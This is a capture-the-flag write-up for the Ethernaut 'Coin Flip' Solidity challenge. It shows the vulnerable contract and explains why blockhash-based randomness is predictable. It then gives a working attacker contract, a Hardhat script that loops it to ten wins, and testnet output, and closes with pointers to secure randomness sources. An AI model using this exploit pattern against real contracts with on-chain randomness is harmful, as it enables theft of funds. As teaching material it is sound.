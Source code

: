 ```yaml
---
title: "Ethernaut #03 Coin Flip"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Coin Flip challenge writeup
---
```


## Fallback

### Challenge

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

* See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Background

Randomness on the chain is not easy to achieve. When using techniques that are block dependent they can be easily manipulated.

### Attack

In order to solve this challenge we need to predict the value of `side` in the `flip` function. The value of `side` depends on `FACTOR` and `blockValue`. `FACTOR` is a constant and `blockValue` is a the hash of the previous block. So we only need to find the hash of the previous block in order to attack the random side generator. So we could precalculate the value using the current block hash and pay a high enough fee to make sure we are in the next block. But this method is expensive, and likely to fail. However, there is a much more reliable solution that will work 100% of the time. We can create a contract of our own, that will call the `flip` function in the `CoinFlip` contract. This contract will have all the information that the `CoinFlip` contract has and can thus know exactly the output of the computation.

* Deploy an attacker controlled contract that can calculate the result.
* Call it until the expected number is reached

#### CoinFlipSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';
import '../challenges/CoinFlip.sol';

contract CoinFlipSolve {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip coinFlipContract;

  constructor(address _coinFlipAddress) public {
    coinFlipContract = CoinFlip(_coinFlipAddress);
  }

  function flip() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    coinFlipContract.flip(side);
  }
}
```

#### coin-flip-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    coinFlipAddress = "0x8C4A7428681896BCE847d2ED9c60c6eEB95eFca1";
    contract = await ethers.getContractAt("CoinFlip", coinFlipAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    CoinFlipSolve = await ethers.getContractFactory("CoinFlipSolve");
    coinFlipSolve = await CoinFlipSolve.deploy(contract.address);
    await coinFlipSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Consecutive Wins  : " + await contract.consecutiveWins())
    console.log("Executing Attack")

    // predict flip until consecutive wins reached
    while (await contract.consecutiveWins() < 10) {
        tx = await coinFlipSolve.connect(account).flip()
        receipt = await tx.wait()
    }

    console.log("Finished Executing Attack")
    console.log("Consecutive Wins  : " + await contract.consecutiveWins())    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/coin-flip-solve.js --network rinkeby
Level address   : 0x8C4A7428681896BCE847d2ED9c60c6eEB95eFca1
Consecutive Wins  : 1
Executing Attack
Finished Executing Attack
Consecutive Wins  : 10
```

### Success Message

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
